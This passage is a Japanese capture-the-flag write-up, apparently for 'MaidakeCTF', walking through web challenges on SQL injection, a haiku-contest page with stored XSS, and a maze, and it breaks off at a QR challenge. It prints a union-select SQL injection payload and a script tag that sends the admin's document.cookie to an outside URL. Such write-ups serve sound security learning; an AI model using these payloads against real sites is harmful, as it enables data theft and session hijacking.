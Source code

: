 `flag` テーブルにフラグがありそうです。`' and 0 union select this_is_flag,2,3,4,5,6,7,8,9,10,11 from flag;#` を入力すると、以下のようなテーブルが表示されました。

|図鑑No.|艦名|艦種|次改造レベル|MD5|
|-------|---|---|-----------|---|
|MaidakeCTF{Use_question_mark_placeholders_when_calling_SQL}|3|4|5|11|

フラグが得られました。

```
MaidakeCTF{Use_question_mark_placeholders_when_calling_SQL}
```

### Haiku contest (500)
> 俳句はお好きですか？
> 
> (URL)

与えられた URL にアクセスすると、登録/ログインフォームが表示されました。とりあえず適当にアカウントを作ってログインすると、俳句を入力できるフォームが表示されました。俳句の採点もできるようで、依頼すると管理者のブラウザでの巡回が来そうです。

`<s>neko</s>` という俳句を投稿してみると、斜線の入った `neko` が表示されました。XSS できるようです。とりあえず管理者の Cookie が抜けないか試してみましょう。`<script>(new Image).src='http://(URL)/?'+document.cookie</script>` という俳句を投稿して採点してもらうと、`GET /?flag=MaidakeCTF{If_you_do_not_escape_properly_cookies_can_be_easily_stolen}` という HTTP リクエストが来ました。

```
MaidakeCTF{If_you_do_not_escape_properly_cookies_can_be_easily_stolen}
```

### Maze (400)
> ちょっと！
> これゴールにたどり着けないんだけど！！(# ﾟДﾟ)
> 
> (URL)

与えられた URL にアクセスすると、迷路が表示されました。問題文から、もしゴールできればフラグが手に入れられそうな雰囲気があります。ソースコードのゴール時の処理を確認しましょう。

```javascript
︙
	function goal() {
		sg();
		if (x == 32 && y == 29) {
			$.post('result.php').done(function(data) {
				alert(data);
			});
		}
	}
︙
```

`result.php` にアクセスするとフラグが表示されました。

```
MaidakeCTF{If_you_implement_it_poorly_another_file_may_be_screwed_in}
```

## QR
### A little missing (100)
> QRコードを洗濯したら読めなくなってしまいました。
> 
> 添付ファイル: problem.png
